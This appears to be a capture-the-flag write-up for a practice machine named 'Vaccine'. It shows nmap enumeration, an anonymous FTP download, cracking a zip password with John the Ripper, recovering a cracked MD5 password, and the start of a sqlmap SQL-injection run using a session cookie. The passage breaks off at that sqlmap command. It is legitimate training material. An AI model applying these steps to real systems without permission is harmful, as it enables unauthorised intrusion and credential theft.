






# Vaccine Writeup
1) We spawn the target machine <TARGET_IP>
2) Enumerate target using Nmap 
   (-sV to give more details about the version)
```bash
nmap <TARGET_IP> -sV
```


We can see the open ports (21, 22, 80).

3) We try to login as anonymous (-a for anon login) to the ftp server
```bash
ftp <TARGET_IP> -a
```


We can see that there is a backup.zip, and we will get that using get command to download to our local
```
get backup.zip
```


The zip needs a password, and since we don't know it, we can try few common passwords or bruteforce using password cracking tools.

Here, I will use John The Ripper's zip2john :
```
zip2john backup.zip > backup_hash.txt
```
which processes the zip & extract the necessary hash
Then, we can use 
```
john backup_hash.txt --wordlist=/path/to/wordlist
```

Yay, we find the password !

Now, lets see whats inside the zip!
Unzip the zip first using
```
unzip backup.zip
```
and we will get a index.php and style.css


in the index.php, there is a md5 hashed password, we can decrypt it using online decryptor, and get the password **qwerty789** :D

Now, we can login to the target, and we can see a table in the dashboard. This might be connected to database, and we'll try to inject SQL injections.

To test if its injectable, we can use **sqlmap**



We will give our cookie for our sqlmap to authenticate & search the query

```
sqlmap -u 'http://<TARGET_IP>/dashboard.php?search=a' --cookie="PHPSESSID=<INSERT_COOKIE>"
```